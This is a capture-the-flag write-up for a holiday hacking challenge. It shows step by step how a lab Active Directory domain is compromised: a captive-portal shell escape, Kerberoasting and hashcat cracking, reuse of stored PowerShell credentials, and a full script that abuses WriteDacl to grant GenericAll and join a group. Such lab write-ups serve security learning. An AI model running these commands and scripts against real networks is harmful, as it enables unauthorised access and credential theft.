# Objective 8) Kerberoasting on an Open Fire

!!! summary "*Difficulty*: :fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}"
    Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the <a href="https://register.elfu.org/">ElfU Portal</a>. Find Eve Snowshoes in Santa's office for hints.

!!! note
    When I played through this objective did not unlock until the <a href="../../challenges/T8_HoHo_No">HoHo ... No</a> Terminal Challenge was completed.


## Hints and Resources

??? hint "Hints provided after helping Eve Snowshoes and completing the <a href="../../challenges/T8_HoHo_No">HoHo ... No</a> Terminal Challenge"
    **Kerberoast and AD Abuse Talk**<br>
    Check out <a href="https://www.youtube.com/watch?v=iMh8FTzepU4">Chris Davis' talk</a> <a href="https://github.com/chrisjd20/hhc21_powershell_snippets">and scripts</a> on Kerberoasting and Active Directory permissions abuse.

    **Kerberoasting and Hashcat Syntax**<br>
    Learn about <a href="https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a">Kerberoasting</a> to leverage domain credentials to get usernames and crackable hashes for service accounts.

    **Hashcat Mangling Rules**<br>
    <a href="https://github.com/NotSoSecure/password_cracking_rules">OneRuleToRuleThemAll.rule</a> is great for mangling when a password dictionary isn't enough.<br>
  
    **Finding Domain Controllers**<br>
    There will be some `10.X.X.X` networks in your routing tables that may be interesting. Also, consider adding `-PS22,445` to your `nmap` scans to "fix" default probing for unprivileged scans.<br>

    **CeWL for Wordlist Creation**<br>
    <a href="https://github.com/digininja/CeWL">CeWL</a> can generate some great wordlists from website, but it will ignore digits in terms by default.<br>

    **Stored Credentials**<br>
    Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!<br>

    **Active Directory Interrogation**<br>
    Investigating Active Directory errors is harder without <a href="https://github.com/BloodHoundAD/BloodHound">Bloodhound</a>, but there are <a href="https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell">native</a> <a href="https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf">methods</a>.<br>


??? hint "Other Resources"
    **Hashcat**<br>
    <a href="https://hashcat.net/hashcat/">https://hashcat.net/hashcat/</a>

    **GetUserSPNs Python script from SecureAuthCorp**<br>
    <a href="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py">https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py</a>

    **Some of my scripts and files referenced in the guide**<br>
    <a href="https://github.com/pdecamp/HHC2021-Solutions-Guide/tree/main/Objective8">https://github.com/pdecamp/HHC2021-Solutions-Guide/tree/main/Objective8</a>

## Setup

For this challenge I used Hashcat and CeWL on Linux as well as the OneRuleToRuleThemAll password cracking rule file.

``` title="Local System"
sudo apt install hashcat cewl
wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```


## Solution

### Step 0: Register at the ElfU Portal and Connect

Open the <a href="https://register.elfu.org/">ElfU Portal</a> and register an account.  Note that information entered here will not be used during the challenge, so it can be your real information.  After registering you will get a username and password to use for the challenge (be sure to save these and note that all accounts are reset at midnight).


### Step 1: Shell Escape


After registering, connect to the ElfU portal<br>
`ssh <username>@grades.elfu.org -p 2222`

When we first connect we are presented with a captive portal where we can only view our grades and exit.

To escape this portal enter ++ctrl+d++, which sends the EOF character to the running script and causes it to crash.  We will now be at an interactive Python prompt where we can type `os.system("/bin/bash")` to start a new bash shell.

Once we've done that, we can change our default shell to /bin/bash so a) we don't need to re-escape the Grades Portal if we have to log in again, and b) `scp`, which we will use to transfer files to and from the ElfU system will work.
??? info "Screenshot"
    


### Step 2: Investigate the Network

First, let's determine our own IP address<br>
`ifconfig`
??? info "Screenshot"
    

We could scan our entire class B network (172.17.0.2/16), but that would take quite a while so lets instead start with the smaller address space represented by 172.17.0.2/24 .<br>
`nmap 172.17.0.2/24`
??? info "Screenshot"
    

From this scan we see that some of the machines are running the netbios-ssn service on port 139, which is where SMB shares will be found.  Since our objective is to locate a research document there is a good chance that it will be located on a file share somewhere.

 Querying each of the systems with the command `smbclient -L <ip address>` we find that 172.17.0.3 is serving two promising sounding shares, 'elfu_svc_shr' and 'research_dep', but of course our account does not have access to them.
??? info "Screenshot"
    


### Step 3: Steal a Hash

The GetUserSPNs utility provided in SecureAuthCorp's impacket toolkit can be used to find Service Principle Names that are associated with user accounts.  If one if found then the utility will request a service ticket for that SPN which will allow it to obtain the hash of the user account password.  

First, we download GetUsersSPNs.py from the impacket GitHub repository to our local system, then transfer it to the ElfU system using `scp`<br>

``` title="Local System"
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
scp -P 2222 GetUserSPNs.py nrsquaxzmg@grades.elfu.org:~/
```
??? info "Screenshot"
    

Now on the ElfU system, run GetUserSPNs.py

``` title="ElfU System"
python3 ./GetUserSPNs.py elfu.local/nrsquaxzmg:Zapvnxoth@ -outputfile hashes.kerberoast
```
??? info "Screenshot"
    

We have now captured the password hash for the elfu_svc account into the file hashes.kerberoast.


### Step 4: Crack the Hash

Bring the file containing the password hash for the elfu_svc account back to our local system.
``` title="Local System"
scp -P 2222 nrsquaxzmg@grades.elfu.org:~/hashes.kerberoast ./
```
??? info "Screenshot"
    

Use CeWL to build a wordlist from the ElfU registration portal that we will use as a base for our password cracking attempt.
``` title="Local System"
cewl --with-numbers https://register.elfu.org/register > wordlist.txt
```

Now, crack the hash using the wordlist and the OneRuleToRuleThemAll rule file.
``` title="Local System"
hashcat -m 13100 -a 0 ./hashes.kerberoast --potfile-disable -r ./OneRuleToRuleThemAll.rule --force -O wordlist.txt
```
??? info "Screenshot"
    


### Step 5: Investigate the elfu_svc_shr File Share

Now that we know the password for the elfu_svc account (Snow2021!), we can use it to connect to the elfu_svc_shr file share that we found earlier.

``` title="ElfU System"
smbclient \\\\172.17.0.3\\elfu_svc_shr -U elfu_svc
```
??? info "Screenshot"
    

Looking at the files we find a lot of PowerShell scripts.  Retrieve them all to our local system so we can inspect them for anything interesting.<br>

``` title="ElfU System"
smb: \> prompt off
smb: \> mget *.ps1
```
??? info "Screenshot"
    

Now we search the files for anything that might provide us with additional access.  Possible things to search for would be the strings 'password' or 'username', but neither of those got any interesting results.  What does get a result is the string 'elfu.local', which is found in a single PowerShell script named 'GetProcessInfo.ps1'<br>




``` powershell title="GetProcessInfo.ps1"
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

This script contains encrypted authentication credentials for the account 'remote_elf' to run remote PowerShell commands against the computer with the IP address 10.128.1.53.  While we do not know the password for the remote_elf account, we can use the same process that GetProcessInfo.ps1 uses to run commands of our own on the remote machine.


### Step 6: Get Access to the research_dep Share

Start the Linux version of PowerShell with the `pwsh` command and execute the first three lines of the GetProcesssInfo.ps1 script.  This will setup things so that from here forward we only have to enter the various `Invoke-Command` commands.
??? info "Screenshot"
    

It's probably a valid assumption that the research file we are trying to access is located on the research_dep share.  Access to shares is often controlled by security groups, so we use the `Invoke-Command` command from GetProcessInfo.ps1 with our own content for the `ScriptBlock` parameter to find any groups with the word 'research' in the name.

``` powershell title="ElfU System"
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-ADGroup -filter "Name -like '*research*'" -properties Name } -Credential $aCred -Authentication Negotiate
```
??? info "Screenshot"
    

Now we know that there is a security group named 'Research Department'.  Using the PowerShell scripts referenced in Chris Davis' KringleCon talk as a starting point we can create a script that will let us see any users that have WriteDacl rights to this group.

``` powershell title="Who_Has_WriteDacl.ps1"
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access | Where-Object {$_.ActiveDirectoryRights -eq 'WriteDacl'}
```

Transfer this script to the ElfU server using `scp` and execute it using `Invoke-Command`

``` title="Local System"
scp -P 2222 Who_Has_WriteDacl.ps1 cauovojfjy@grades.elfu.org:~/
```
??? info "Screenshot"
    


``` powershell title="ElfU System"
Invoke-Command -ComputerName 10.128.1.53 -FilePath Who_Has_WriteDacl.ps1 -Credential $aCred -Authentication Negotiate
```
??? info "Screenshot"
    

Conveniently for us, the remote_elf account has WriteDacl to this group.

The next steps in the process is to give our user the GenericALL AD right to the group and then to add it to the group itself.  Again, referencing the sample scripts from Chris Davis' we can write a single script to perform both operations.

``` powershell title="Grant_GenericAll_and_Add_to_Group.ps1"
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "cauovojfjy"
$password = "Ufjeprxjh#"
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None

$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Again, transfer this script to the ElfU server using `scp` and execute it.  Then, verify that our user has been added to the Research Department group.

``` title="Local System"
scp -P 2222 Grant_GenericAll_and_Add_to_Group.ps1 cauovojfjy@grades.elfu.org:~/
```
``` powershell title="ElfU System"
Invoke-Command -ComputerName 10.128.1.53 -FilePath Grant_GenericAll_and_Add_to_Group.ps1 -Credential $aCred -Authentication Negotiate
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-ADUser -identity cauovojfjy -properties MemberOf } -Credential $aCred -Authentication Negotiate
```
??? info "Screenshot"
    


### Step 7: Retrieve the file from the research_dep share

Now that we are in the Research Department security group, connect to the research_dep share.
``` title="ElfU System"
smbclient \\\\172.17.0.3\\research_dep -U cauovojfjy
```

Once connected, we find the file SantaSecretToAWonderfulHolidaySeason.pdf, so retrieve it with `smb get`<br>
??? info "Screenshot"
    

Finally, retrieve the file to our local system using `scp` and open it to find the answer to the objective.

``` title="Local System"
scp -P 2222 cauovojfjy@grades.elfu.org:~/SantaSecretToAWonderfulHolidaySeason.pdf ./
```

??? info "Screenshot"
    


## Completion

!!! success "Answer"
    Kindness